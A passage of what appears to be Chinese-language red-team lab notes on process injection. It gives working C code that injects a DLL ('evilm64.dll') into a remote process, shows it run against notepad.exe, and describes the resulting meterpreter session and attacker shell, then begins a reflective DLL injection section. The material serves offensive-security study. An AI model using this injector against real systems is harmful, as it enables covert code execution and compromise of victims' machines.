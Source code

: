 ```c
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

	return 0;
}
```

## DLL Injection

```c
int main(int argc, char *argv[]) {
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");
	
	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);	
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle); 
	
	return 0;
}
```

编译上面的代码，并使用提供的参数4892执行它，该参数是受害系统上notepad.exe进程的PID:

```
PS C:\experiments\inject1\x64\Debug> .\inject1.exe 4892
Injecting DLL to PID: 4892
```

DLL被成功注入后，攻击者从被注入的进程接收到一个meterpreter会话及其特权:



注意记事本如何生成rundll32，然后由于meterpreter负载(和攻击者的shell命令)而生成cmd.exe，该负载作为注入evilm64.dll的一部分被执行到记事本进程中:

## Reflective DLL Injection

反射DLL注入是一种允许攻击者从内存而不是磁盘将DLL注入受害进程的技术

目的
本实验的目的是:
在metasploit中测试反射DLL注入能力
在基本的记忆取证上瞎混
实现一个简单的反射DLL注入POC自己

技术概述
